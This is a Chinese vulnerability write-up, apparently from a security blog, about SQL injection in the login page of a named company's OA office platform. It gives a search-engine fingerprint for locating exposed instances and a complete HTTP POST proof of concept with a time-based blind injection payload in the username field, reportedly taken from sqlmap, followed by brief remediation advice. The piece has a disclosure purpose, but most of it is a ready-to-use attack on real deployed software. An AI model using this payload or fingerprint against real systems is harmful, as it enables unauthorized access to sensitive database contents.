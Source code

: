 # 原创
：  {大厂漏洞 } OA产品存在SQL注入

# {大厂漏洞 } OA产品存在SQL注入

## **0x01 漏洞介绍**

<br/> 江苏叁拾叁-OA是由江苏叁拾叁信息技术有限公司开发的一款OA办公平台，主要有知识管理，工作流程，沟通交流，辅助办公，集成解决方案，应用支撑平台，基础支撑等功能。 该系统也与江苏叁拾叁智慧农业研究院的农产品电商解决方案、社会化服务解决方案、乡村振兴解决方案等进行了深度融合。该漏洞存在于login下，username对接受的传参没有进行严格的过滤，从而导致SQL注入，攻击者可以利用该漏洞获取数据库敏感信息。

## <br/>**0x02 影响版本**

> 
- `江苏叁拾叁-OA`


## **0x03 语法特征**

> 
- `app="江苏叁拾叁-OA"`


## **0x04 漏洞复现**

<br/> 页面<br/>  

<br/> POC(payload sqlmap梭哈来的)

```
POST /login HTTP/1.1
Host:
Content-Length: 93
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=admin' AND (SELECT 9415 FROM (SELECT(SLEEP(4)))QBMI) AND 'AUxO'='AUxO&amp;amp;password=admin
```

<br/> 直接sqlmap梭哈来<br/>  

## <br/>**0x05 漏洞修复建议**

> 
- `使用参数化查询`- `对用户输入进行验证和过滤`- `限制数据库账户权限`- `更新和打补丁`

